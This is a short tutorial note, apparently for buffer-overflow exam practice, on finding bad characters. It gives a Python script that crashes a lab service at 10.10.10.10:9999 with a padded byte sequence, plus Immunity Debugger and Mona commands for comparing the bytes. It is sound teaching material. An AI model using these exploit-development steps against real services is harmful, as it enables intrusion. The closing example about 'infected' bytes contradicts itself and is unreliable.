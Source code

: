 To find bad characters we gotta send a bunch of different bytes characters, to do that with python we do 

```python
import socket
from time import sleep

ip, port = "10.10.10.10", 9999 # Change the ip and port
offset = 0  # change this with what you got from step 2
prefix = b"" # change this if necessary and make sure theres a space at the end.
badchars = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

try:
	s = socket.socket()
	s.connect((ip, port))
	s.send(prefix + b"A"*offset + b"B"*4 + badchars)
except:
	print(f"Something went wrong")

s.close()
```

After executing it and crashing the program, right click the ESP in the top right with Immunity debugger and press "Follow in dump" that should take you somewhere in the bottom left and you see the characters are in order like 01 02 03 04 etc. and the pattern should be similar to the bad chars list above if something is out of order like 01 02 03 04 05 B0, that B0 is very out of place cuz there should be 06 instead, that means 06 is a bad characters cause it wont show there. Add that to a note somewhere and continue doing that until FF

## Mona automation
This process can be automated with [[Mona]], you have to type these command at the bottom of Immunity debugger

```
!mona config -set workingfolder c:\mona
!mona bytearray -cpb "\x00"
!mona compare -f c:\mona\bytearray.bin -a <ESP>
```

That will compare the bytearray.bin with all the bytes we generated.

# Note
1. \x00 is always a bad characters so always remeber to include that
2. Bad characters can infect the next byte so like 00 01 B4 B4, in that example 03 and 04 are bad characters but in reality only 03 is a bad character, it just infected the one in front of it, so we are not gonna include 04 and only 03.